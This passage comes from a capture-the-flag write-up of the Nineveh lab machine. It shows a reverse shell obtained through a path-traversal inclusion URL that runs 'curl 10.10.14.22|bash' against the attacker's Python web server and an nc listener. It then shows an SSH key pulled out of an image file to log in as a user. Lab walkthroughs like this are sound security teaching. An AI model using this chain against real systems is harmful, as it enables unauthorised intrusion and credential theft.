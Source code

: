 One of the methods to access the system once I have a **RCE**, is to create an **index.html** file with a **Bash** command that sends a **Reverse Shell**, then configure a local server with `python` on my attacking machine so that the malicious file is accessible, the following is to open a local port with `nc` to establish the remote connection and finally from the browser, with `curl` send a request to the **IP** of my machine and interpret the content with `bash`. I follow all the steps and I can successfully engage the box to perform the basic enumeration commands (I confirm that the **Codename** is **xenial**), but before continuing I will perform a console treatment to work more efficiently with the terminal.

```bash
nvim index.html
cat index.html
python3 -m http.server 80
nc -nlvp 443

# http://nineveh.htb/department/manage.php?notes=files/ninevehNotes/../../../../../../var/tmp/oldboy.php&cmd=curl%2010.10.14.22|bash

whoami
hostname
hostname -I
uname -a
lsb_release -a

script /dev/null -c bash
# [Ctrl^z]
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128
```

<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_50.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_51.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_52.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

After enumerating the system I find a folder with a somewhat suggestive name, there is a file whose extension is an image. If I analyze the image with `string`, most of the content is unreadable but it has also the content of a hidden key, possibly to connect by **SSH**. If I create the key and give it the corresponding permissions (**600**) I can access port **22** (which is open locally), it does not allow me to access with the **root** user account but I can with the **amrois** one.

```bash
cd /var/www/
ls -la

cd /var/www/ssl/secure_notes
strings nineveh.png

cd /dev/shm
nano id_rsa
cat id_rsa | head -n 4
chmod 600 id_rsa
ssh -i id_rsa root@localhost
# :(
ssh -i id_rsa amrois@localhost
# :)
```

